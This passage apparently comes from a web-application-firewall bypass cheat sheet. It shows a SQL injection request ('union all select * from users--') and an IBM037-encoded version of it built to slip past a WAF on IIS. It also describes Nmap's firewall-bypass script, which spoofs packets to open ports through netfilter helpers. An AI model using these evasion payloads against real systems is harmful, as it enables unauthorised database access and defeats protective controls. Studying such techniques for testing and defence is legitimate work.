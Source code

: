 ### 15. Obfuscation technique in other formats.

Many web applications support different types of encoding and can interpret encoding. We always need to obfuscate the payload to a format that WAF does not support but the server can smuggle our payload.

Case IIS:

IIS 6, 7.5, 8, and 10 allow IBM037 character interpretations. Send encoded parameters with the query.

**Original request:**

```bash
POST /example.aspx?id7=sometext HTTP/1.1

HOST: target.org

Content-Type: application/x-www-form-urlencoded; charset=utf-8

Content-Length: 27

id2='union all select * from users--
```

**Request obfuscated with URL encoding:**

```bash
POST /example.aspx?%89%84%F7=%A2%95%94%86%A3%88%89%95%87 HTTP/1.1

HOST: target.org

Content-Type: application/x-www-form-urlencoded; charset=ibm037

Content-Length: 127

%89%84%F2=%7D%A4%95%89%97%95%40%81%93%94%40%A2%85%93%85%84%A3%40%5C%40%86%99%97%94%40%A4%A2%85%99%A2%60%60
```

## NMAP - Script firewall-bypass

Detects a vulnerability in netfilter and other firewalls that use helpers to dynamically open ports for protocols like ftp and sip. The script works by spoofing a packet from the target server requesting to open a related connection to a target port that will be fulfilled by the firewall via the appropriate protocol helper port. For this to work, the attacking machine must be on the same network segment as the firewall. The script supports the ftp helper in both IPv4 and IPv6. The real path filter is used to prevent such attacks.

Download: **[https://svn.nmap.org/nmap/scripts/firewall-bypass.nse](https://svn.nmap.org/nmap/scripts/firewall-bypass.nse)**

For more information, see:

- **[http://home.regit.org/2012/03/playing-with-network-layers-to-bypass-firewalls-filtering-policy/](http://home.regit.org/2012/03/playing-with-network-layers-to-bypass-firewalls-filtering-policy/)**
